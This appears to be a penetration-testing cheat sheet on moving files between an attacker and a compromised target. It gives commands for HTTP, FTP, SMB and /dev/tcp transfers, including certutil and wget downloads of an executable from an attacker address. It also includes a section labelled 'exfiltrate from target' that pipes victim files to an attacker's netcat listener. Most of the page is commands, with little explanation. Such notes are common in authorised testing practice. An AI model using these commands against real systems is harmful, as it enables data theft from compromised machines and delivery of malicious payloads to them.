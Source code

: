 <h2>HTTP</h2>

<h3>target</h3>
`python3 -m http.server 80 (file must be in current directory)`

<h3>linux</h3>
`wget http://192.168.x.x/file.exe` 
<h3>windows</h3>
`certutil .exe -urlcache -f [http://192.168.x.x/file.exe](http://192.168.x.x/file.exe)`


<h2>HTTPS</h2>


<h2>FTP</h2>
<h3>FTP server</h3>
<h5>attacker (python)</h5>
`python3 -m pyftpdlib -p 21`
<h5>attacker (node)</h5>
`ftp-srv ftp://0.0.0.0:9876 --root /tmp


<H2>SMB</H2>
<H5>attacker (impacket)</H5>
`impacket-smbserver -smb2support kali `pwd` # Share current directory

<H5>attacker (smbserver.py)</H5>
`smbserver.py -smb2support name /path/folder # Share a folder

<H5>attacker (impacket -- newer windows 10)</H5>
`impacket-smbserver -smb2support -user test -password test test `pwd``


<H2>/dev/tcp</H2>
<H5>exfiltrate from target</H5>
`nc -lvnp 80 > file to send`                                **attacker
`cat /path/file > /dev/tcp/lhost/80  `Inside victim`
<H5>upload to target</H5>
`nc -w5 -lvnp 80 < file_to_send.txt`              Inside attacker   
Inside victim
`exec 6< /dev/tcp/lhost/4444`               
`cat <&6 > file.txt

